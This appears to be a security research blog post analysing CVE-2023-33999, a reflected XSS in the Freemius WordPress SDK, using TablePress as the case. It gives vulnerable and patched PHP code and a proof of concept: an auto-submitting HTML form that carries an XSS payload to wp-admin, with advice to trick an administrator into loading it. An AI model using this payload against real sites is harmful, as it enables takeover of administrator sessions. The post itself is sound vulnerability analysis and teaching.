


<!--more-->

## CVE & Basic Info

**Freemius SDK for WordPress** does not properly **sanitize** input data or **escape** output data, leading to a **Reflected Cross-Site Scripting (XSS)** vulnerability. This directly affects **more than 1,000 plugins and themes** using this SDK.

* **CVE ID**: [CVE-2023-33999](https://wpscan.com/vulnerability/35d2f1e7-a4f8-49fd-a8dd-bb2c26710f93/)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: <= 2.5.9
* **Patched Versions**: 2.5.10
* **CVSS severity**: Medium (6.1)
* **Required Privilege**: Unauthenticated
* **Product**: [Freemius SDK for WordPress](https://freemius.com/help/documentation/wordpress-sdk/)

## Requirements

* **Local WordPress & Debugging**

  * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
  * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **TablePress**:

  * `2.1.4` – **vulnerable**
  * `2.1.5` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any other diff tool.

## About Freemius SDK

**Freemius SDK** is a library (Software Development Kit) for **WordPress**, helping plugin and theme developers easily add the following features to their products:

* **License management**
* Handling **freemium / premium** versions
* Allowing users to **connect accounts (opt-in)**
* Collecting **usage statistics (analytics)**
* Managing **payments and renewals**
* Displaying **upsell / upgrade** in the WordPress dashboard

> [!NOTE]
> **Freemius SDK** is not a standalone plugin; it is embedded directly into the source code of other plugins or themes. Therefore, when a vulnerability exists in **Freemius SDK**, many products are affected. The plugin [**TablePress**](https://wordpress.org/plugins/tablepress/) is one of the impacted cases, so it was chosen for analysis.

## Cause

**In the vulnerable version v2.5.9:**

```php {title="freemius/includes/fs-core-functions.php v2.5.9" data-open=true}
/**
 * A helper method to fetch GET/POST user input with an optional default value when the input is not set.
 * @author Vova Feldman (@svovaf)
 *
 * @param string      $key
 * @param mixed       $def
 * @param string|bool $type Since 1.2.1.7 - when set to 'get' will look for the value passed via querystring, when
 *                          set to 'post' will look for the value passed via the POST request's body, otherwise,
 *                          will check if the parameter was passed in any of the two.
 *
 * @return mixed
 */
function fs_request_get( $key, $def = false, $type = false ) {
    if ( is_string( $type ) ) {
        $type = strtolower( $type );
    }

    /**
     * Note to WordPress.org Reviewers:
     *  This is a helper method to fetch GET/POST user input with an optional default value when the input is not set. The actual sanitization is done in the scope of the function's usage.
     */
    switch ( $type ) {
        case 'post':
            $value = isset( $_POST[ $key ] ) ? $_POST[ $key ] : $def;
            break;
        case 'get':
            $value = isset( $_GET[ $key ] ) ? $_GET[ $key ] : $def;
            break;
        default:
            $value = isset( $_REQUEST[ $key ] ) ? $_REQUEST[ $key ] : $def;
            break;
    }

    return $value;
}
```

The `fs_request_get()` function is used to **retrieve the value of a parameter from a user request** (GET, POST, or both), based on the provided key name. If the parameter does not exist, the function returns the default value. The `$type` parameter allows explicitly specifying whether the data source is `GET`, `POST`, or all (`REQUEST`).

> [!BUG]
> The returned data is not sanitized or escaped. If this value is printed to the browser (for example, using `echo`) without proper handling, an attacker can inject malicious JavaScript code through request parameters, leading to a **Reflected Cross-Site Scripting (XSS)** vulnerability.

**Patch v2.5.9:**

```php {title="freemius/includes/fs-core-functions.php v2.5.10" data-open=true}
function fs_request_get_raw( $key, $def = false, $type = false ) {
    if ( is_string( $type ) ) {
        $type = strtolower( $type );
    }

    /**
     * Note to WordPress.org reviewers:
     * This is a helper function to fetch GET/POST user input with an optional default value when the input is not set. The actual sanitization is done in the scope of the function's usage.
     */
    switch ( $type ) {
        case 'post':
            // phpcs:ignore WordPress.Security.NonceVerification.Missing
            $value = isset( $_POST[ $key ] ) ? $_POST[ $key ] : $def;
            break;
        case 'get':
            // phpcs:ignore WordPress.Security.NonceVerification.Recommended
            $value = isset( $_GET[ $key ] ) ? $_GET[ $key ] : $def;
            break;
        default:
            // phpcs:ignore WordPress.Security.NonceVerification.Recommended
            $value = isset( $_REQUEST[ $key ] ) ? $_REQUEST[ $key ] : $def;
            break;
    }

    // Don't unslash if the value itself is empty (empty string, null, empty array etc).
    return empty( $value ) ? $value : wp_unslash( $value );
}

function fs_sanitize_input( $input ) {
    if ( is_array( $input ) ) {
        foreach ( $input as $key => $value ) {
            $input[ $key ] = fs_sanitize_input( $value );
        }
    } else {
        // Allow empty values to pass through as-is, like `null`, `''`, `0`, `'0'` etc.
        $input = empty( $input ) ? $input : sanitize_text_field( $input );
    }

    return $input;
}

function fs_request_get( $key, $def = false, $type = false ) {
    return fs_sanitize_input( fs_request_get_raw( $key, $def, $type ) );
}
```

The patch separates **data retrieval** and **data sanitization** into two distinct steps.
`fs_request_get_raw()` only retrieves the raw value from GET/POST/REQUEST and removes escaping with `wp_unslash()`, while `fs_sanitize_input()` is responsible for sanitizing (even when the input is an array) using `sanitize_text_field()`. Finally, `fs_request_get()` always returns sanitized data. As a result, malicious data is no longer returned directly, reducing the risk of **Reflected XSS** exploitation.

## Analysis

The `fs_request_get()` function is called in many places.



so the tracing process is somewhat time-consuming.



The `dynamic_init()` function calls `fs_request_get()` to retrieve the values of keys such as `purchased_plan` and `purchase_email` from the request, and then uses these values to display a license purchase confirmation message in the admin page. These values are not sanitized before being included in the displayed content, leading to the risk that user-controlled data can inject malicious code and cause a **Reflected Cross-Site Scripting (XSS)** vulnerability.

For this message to appear, 3 conditions must be met:

1. The request must be called from the Admin Dashboard

```php {data-open=true}
$this->is_user_in_admin()
/**
 * Check if a real user is visiting the admin dashboard.
 *
 * @author Vova Feldman (@svovaf)
 * @since  1.1.7
 *
 * @return bool
 */
function is_user_in_admin() {
    return (
        is_admin() &&
        ! self::is_ajax() &&
        ! self::is_cron() &&
        ! self::is_admin_post()
    );
}
```

2. Check whether the user has already connected (opted-in) to Freemius.

```php {data-open=true}
$this->is_registered()
/**
 * Check if user has connected his account (opted-in).
 *
 * Note:
 *      If the user opted-in and opted-out on a later stage,
 *      this will still return true. If you want to check if the
 *      user is currently opted-in, use:
 *          `$fs->is_registered() && $fs->is_tracking_allowed()`
 *
 * @author Vova Feldman (@svovaf)
 * @since  1.0.1
 *
 * @param bool $ignore_anonymous_state Since 2.5.1
 *
 * @return bool
 */
function is_registered( $ignore_anonymous_state = false ) {
    return (
        is_object( value: $this->_user ) &&
        (
            $this->is_premium() ||
            $ignore_anonymous_state ||
            ! $this->is_anonymous()
        )
    );
}
```

After successfully setting up the plugin, the system sends a confirmation email to complete this connection (opt-in) process.


3. The request must contain the `purchase_completed` parameter

```php
fs_request_has( 'purchase_completed' )
function fs_request_has( $key ) {
    return isset( $_REQUEST[ $key ] );
}
```

---

`dynamic_init()` is called inside the `fs_dynamic_init()` function

```php
function fs_dynamic_init( $module ) {
    $fs = Freemius::instance( $module['id'], $module['slug'], true );
    $fs->dynamic_init( $module );

    return $fs;
}
```

This function creates an instance of `Freemius` and calls `dynamic_init()` to initialize the SDK with the configuration from `$module`.

`fs_dynamic_init()` is called in the file `tablepress/tablepress.php` (the `tb_tp_fs()` function)

```php {data-open=true title="tablepress/tablepress.php"}
function tb_tp_fs() {
    global $tb_tp_fs;

    if ( ! isset( $tb_tp_fs ) ) {
        // Include Freemius SDK.
        require_once __DIR__ . '/libraries/freemius/start.php';

        $tb_tp_fs = fs_dynamic_init( array(
            'id'                => '10340',
            'slug'              => 'tablepress',
            'type'              => 'plugin',
            'public_key'        => 'pk_b215ca1bb4041cf43ed137ae7665b',
            'is_premium'        => false,
            'has_addons'        => false,
            'has_paid_plans'    => true,
            'menu'              => array(
                'slug'    => 'tablepress',
                'contact' => false,
                'support' => false,
                'account' => false,
                'pricing' => false,
            ),
            'opt_in_moderation' => array(
                'new'       => true,
                'updates'   => false,
                'localhost' => false,
            ),
            'is_live'           => true,
        ) );
    }

    return $tb_tp_fs;
}
```

This function:

* Loads the Freemius SDK
* Calls `fs_dynamic_init()` with the configuration for TablePress
* Stores the instance in the global variable `$tb_tp_fs`

`tb_tp_fs()` is called directly in `tablepress/tablepress.php`

```php {data-open=true title="tablepress/tablepress.php"}
// Init Freemius.
tb_tp_fs();
```

Because `tablepress.php` is the first file loaded by WordPress when the plugin runs, the Freemius SDK is also initialized from here.

Therefore, the flow `tablepress/tablepress.php` → `tb_tp_fs()` → `fs_dynamic_init()` → `dynamic_init()` is always executed whenever WordPress processes a request and the TablePress plugin is loaded. This means that the logic inside `dynamic_init()`, including reading data from the request (such as `purchased_plan`, `purchase_email…`), will always have a chance to be triggered when users access endpoints related to the admin area.


However, in order for the vulnerability to be exploited with unauthenticated privileges, the attacker cannot directly interact with it but must build an indirect scenario, such as luring an administrator to visit a malicious website. In that case, the admin’s browser may automatically send a request to the logged-in WordPress admin page, carrying parameters controlled by the attacker, thereby triggering unintended behavior during the plugin’s processing.

## PoC

1. Create a malicious website that automatically sends a request to the WordPress admin page:

```html {data-open=true}
<html>
  <body>
    <form action="http://localhost/wp-admin/index.php">
      <input type="hidden" name="purchase&#95;email" value="&lt;svg&#47;onload&#61;alert&#40;&#41;&gt;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

2. Send the link of this website to a user with administrator privileges and trick them into visiting it, thereby triggering the request when the malicious page is loaded.

## Conclusion

CVE-2023-33999 originates from **unsanitized input handling** in `fs_request_get()` of the Freemius SDK, allowing user-controlled data to be directly injected into content displayed in the admin page. Because Freemius is widely embedded in many plugins and themes, the impact of this vulnerability is much greater than that of a single plugin. Version 2.5.10 fixes the issue by **separating data retrieval and sanitization**, ensuring that all data from requests is sanitized before being used.

## Key Takeaways

* Never trust data from `$_GET`, `$_POST`, `$_REQUEST` – always **sanitize and escape** before using or displaying it.
* A vulnerability in a shared SDK (such as Freemius) creates a **chain reaction** affecting thousands of products.
* Always check third-party libraries and **update to patched versions in a timely manner**.
* Early SDK initialization increases the chance that a vulnerability can be triggered on more requests than expected.
* Reflected XSS can be exploited indirectly through **social engineering** and malicious websites.

## References

[Cross Site Scripting](https://book.hacktricks.wiki/en/pentesting-web/xss-cross-site-scripting/index.html)

[https://github.com/Freemius/wordpress-sdk/commit/e34e4f1eb67d02ec20ee8c7ab65c1ca1efe40c01](https://github.com/Freemius/wordpress-sdk/commit/e34e4f1eb67d02ec20ee8c7ab65c1ca1efe40c01)
